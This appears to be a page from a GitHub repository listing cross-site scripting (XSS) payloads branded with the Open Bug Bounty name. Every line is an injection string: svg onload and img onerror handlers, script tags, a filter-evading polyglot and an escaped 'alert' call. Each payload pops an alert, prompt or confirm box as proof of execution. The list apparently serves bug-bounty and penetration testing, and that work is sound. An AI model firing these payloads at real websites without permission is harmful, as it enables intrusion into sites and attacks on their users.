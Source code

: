 # XSS Payloads

"><svg/onload=prompt(/OPENBUGBOUNTY/)>
'"--!><img src=x onerror=alert("OPENBUGBOUNTY")> 
'"/><svg/onload=prompt(/OPENBUGBOUNTY/)>
'"><script>alert("OPENBUGBOUNTY")</script>
'"><script>confirm("OPENBUGBOUNTY")</script>
'"><script>prompt("OPENBUGBOUNTY")</script>
'"><svg/onload=alert(/OPENBUGBOUNTY/)>
'"><svg/onload=confirm(/OPENBUGBOUNTY/)>
'"><svg/onload=prompt(/OPENBUGBOUNTY/)>
'>"/><svg/onload=prompt(/OPENBUGBOUNTY/)>
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<svg/onload=prompt(/OPENBUGBOUNTY/)>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("OPENBUGBOUNTY")//>\x3exss.txt

'"><svg/onload=prompt`1`>
'"><svg/onload=alert`1`>
'"><svg/onload=confirm`1`>
'"><script>alert`1`</script> 
><script>alert`1`</script> 
'"><svg onload=prompt`openbugbounty`>
'"><svg onload=alert`openbugbounty`>
'"><svg onload=confirm`openbugbounty`>
<!'/*!"/*!/'/*/"/*--!><Input/Autofocus/*/Onfocus=confirm`OPENBUGBOUNTY`//><Svg>/
'"><svg/onload=alert(/openbugbounty/)>

